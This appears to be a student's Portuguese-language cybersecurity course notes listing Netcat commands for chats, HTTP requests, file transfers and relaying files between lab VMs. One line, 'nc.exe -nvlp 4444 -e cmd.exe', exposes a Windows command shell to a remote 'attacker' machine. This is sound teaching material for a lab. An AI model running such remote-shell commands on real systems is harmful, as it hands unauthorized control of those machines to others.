 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Instalação e Configuração

- Instalar o Netcat:
apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321




